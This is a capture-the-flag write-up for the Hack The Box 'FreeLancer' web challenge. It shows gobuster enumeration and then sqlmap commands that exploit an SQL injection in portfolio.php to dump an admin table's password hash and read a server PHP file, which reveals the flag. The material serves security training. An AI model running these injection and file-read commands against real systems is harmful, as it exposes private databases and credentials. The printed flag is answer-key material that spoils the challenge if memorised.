 # FreeLancer

Connecting to http://docker.hackthebox.eu:32280/ shows a blog that seems not to have been configured. There is a contact form but no field seems to be injectable.

There is a `robots.txt` file but it seems empty. Running gobuster reveals 2 interesting locations: `/administrat` and `/mail`. The analysis of the source code of the main page reveals that the `/mail` folder contains a `contact_me.php` file that needs to be configured.

On the other hand, the `/administrat` location is an authentication form, but we don't have clues about credentials.

Continuing the exploration of the source code of the main page reveals that images are loaded via a `portfolio.php` file that takes an `id` parameter (e.g. http://docker.hackthebox.eu:32280/portfolio.php?id=1). Let's use `sqlmap` to check if it could be injectable:

~~~
kali@kali:/data/src/sqlmap$ sqlmap -u "http://docker.hackthebox.eu:32280/portfolio.php?id=1" --current-db

[REDACTED]

---
[11:55:27] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[11:55:27] [INFO] fetching current database
current database: 'freelancer'
[11:55:27] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/docker.hackthebox.eu'

[*] ending @ 11:55:27 /2020-08-23/
~~~

The current database is "freelancer". Let's list the tables.

~~~
kali@kali:/data/src/sqlmap$ sqlmap -u "http://docker.hackthebox.eu:32280/portfolio.php?id=1" -D freelancer --tables

[REDACTED]

Database: freelancer
[2 tables]
+-----------+
| portfolio |
| safeadmin |
+-----------+
~~~

And now, let's dump the content of the `safeadmin` table:

~~~
kali@kali:/data/src/sqlmap$ sqlmap -u "http://docker.hackthebox.eu:32280/portfolio.php?id=1" -D freelancer -T safeadmin --dump

[REDACTED]

Database: freelancer
Table: safeadmin
[1 entry]
+----+--------------------------------------------------------------+----------+---------------------+
| id | password                                                     | username | created_at          |
+----+--------------------------------------------------------------+----------+---------------------+
| 1  | $2y$10$s2ZCi/tHICnA97uf4MfbZuhmOZQXdCnrM9VM9LBMHPp68vAXNRf4K | safeadm  | 2019-07-16 20:25:45 |
+----+--------------------------------------------------------------+----------+---------------------+
~~~

Unfortunately, I was not successful in cracking the password hash.

Recursively bruteforcing the discovery of files in the `/administrat` directory with gobuster reveals the presence of a `panel.php` file.

~~~
kali@kali:/data/src/sqlmap$ gobuster dir -u http://docker.hackthebox.eu:32280/administrat/ -x php -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://docker.hackthebox.eu:32280/administrat/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/08/23 11:59:51 Starting gobuster
===============================================================
/.hta (Status: 403)
/.hta.php (Status: 403)
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/include (Status: 301)
/index.php (Status: 200)
/index.php (Status: 200)
/logout.php (Status: 302)
/panel.php (Status: 302)
===============================================================
2020/08/23 12:00:35 Finished
===============================================================
~~~

Still using the previous SQL injection, we may use sqlmap to dump the content of the file:

~~~
kali@kali:/data/src/sqlmap$ sqlmap -u "http://docker.hackthebox.eu:32280/portfolio.php?id=1" --file-read=/var/www/html/administrat/panel.php

[REDACTED]

[*] /home/kali/.local/share/sqlmap/output/docker.hackthebox.eu/files/_var_www_html_administrat_panel.php (same file)
~~~

Let's check the file:

~~~
kali@kali:/data/src/sqlmap$ cat ~/.local/share/sqlmap/output/docker.hackthebox.eu/files/_var_www_html_administrat_panel.php 
<?php
// Initialize the session
session_start();
 
// Check if the user is logged in, if not then redirect him to login page
if(!isset($_SESSION["loggedin"]) || $_SESSION["loggedin"] !== true){
    header("location: index.php");
    exit;
}
?>
 
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Welcome</title>
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.css">
  <link rel="icon" href="../favicon.ico" type="image/x-icon">
    <style type="text/css">
        body{ font: 14px sans-serif; text-align: center; }
    </style>
</head>
<body>
    <div class="page-header">
        <h1>Hi, <b><?php echo htmlspecialchars($_SESSION["username"]); ?></b>. Welcome to our site.</h1><b><a href="logout.php">Logout</a></b>
<br><br><br>
        <h1>HTB{s4ff_3_1_w33b_fr4__l33nc_3}</h1>
    </div>
</body>
</html>
~~~

Flag: `HTB{s4ff_3_1_w33b_fr4__l33nc_3}`
